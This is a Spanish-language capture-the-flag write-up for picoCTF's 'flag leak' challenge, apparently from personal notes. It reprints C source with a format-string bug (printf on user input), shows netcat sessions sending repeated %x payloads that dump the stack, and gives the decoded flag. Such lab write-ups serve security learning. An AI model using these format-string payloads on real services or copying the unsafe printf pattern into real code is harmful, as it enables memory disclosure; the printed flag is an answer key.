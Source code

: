 # flag leak

## Descripcion Reto
Story telling class 1/2 I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/92/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/92/vuln.c). And connect with it using: `nc saturn.picoctf.net 60126`

## Pistas
1. (None)

## Solución
```bash
┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ ls -la
total 20
drwxrwx--- 1 root vboxsf     0 may 14 19:00 .
drwxrwx--- 1 root vboxsf     0 may 14 18:56 ..
-rwxrwx--- 1 root vboxsf 15876 mar 15 21:16 vuln
-rwxrwx--- 1 root vboxsf   947 mar 15 21:16 vuln.c

┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ cat vuln.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ ./vuln    
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                                   
┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ chmod +x vuln

┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ nano flag.txt
                                                                                                   
┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ ls
flag.txt  vuln  vuln.c

┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ nc saturn.picoctf.net 60126
Tell me a story and then I'll tell you one >> %x
Here's a story - 
ffd825a0

┌──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ nc saturn.picoctf.net 51192
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x
Here's a story - 
fff0a4f0fff0a51080493467825782578257825782578257825782578257825782578250f7dd37ccf7fb9110

──(kali㉿kali)-[~/hacking/picoBinary/fl]
└─$ nc saturn.picoctf.net 58912
Tell me a story and then I'll tell you one >> %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's a story - 
ffc6e470ffc6e4908049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f665f6b63633130667d653833fbad2000b98465000f7fe3990804c00080494100804c000ffc6e55880494182ffc6e604ffc6e6100ffc6e57000f7dd9ed5
```

![[Pasted image 20230514210258.png]]

Se obtiene un valor hexadecimal de la historia que el programa genera, al decodificarla y corregir sus posicione sse obtiene la bandera **6f 63 69 70 7b 46 54 43 6b 34 33 4c 5f 67 6e 31 67 34 6c 46 66 66 30 5f 34 74 53 5f 66 5f 6b 63 63 31 30 66 7d 65 38 33 **

![[Pasted image 20230514205826.png]]

## Bandera
* picoCTF{L34k1ng_Fl4g_0ff_St4ck_ff01c38e}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()